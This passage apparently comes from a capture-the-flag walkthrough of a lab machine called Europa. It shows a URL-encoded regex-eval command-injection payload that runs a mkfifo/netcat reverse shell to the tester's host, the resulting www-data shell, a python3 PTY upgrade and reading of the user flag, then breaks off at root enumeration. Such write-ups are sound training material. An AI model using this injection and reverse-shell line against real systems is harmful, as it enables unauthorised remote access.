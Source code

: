 

    pattern=%2Fx%2Fe&ipaddress=system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f")%3b&text=x



On submitting, I've got a shell as www-data:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.22.
    Ncat: Connection from 10.10.10.22:59368.
    /bin/sh: 0: can't access tty; job control turned off
    $ 



`python` isn't on the box, but `python3` is, so the PTY trick works to
get a good shell:



    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@europa:/var/www/admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@europa:/var/www/admin$ 



There's only one user, and `user.txt` is world-readable:



    www-data@europa:/home/john$ ls -l user.txt 
    -r--r--r-- 1 root john 33 Jun 23  2017 user.txt
    www-data@europa:/home/john$ cat user.txt
    2f8d40cc************************



## Shell as root

### Enumeration

Looking at the website, there are four folders in `/var/www`:



    www-data@europa:/var/www$ ls            
    admin  cmd  cronjobs .md

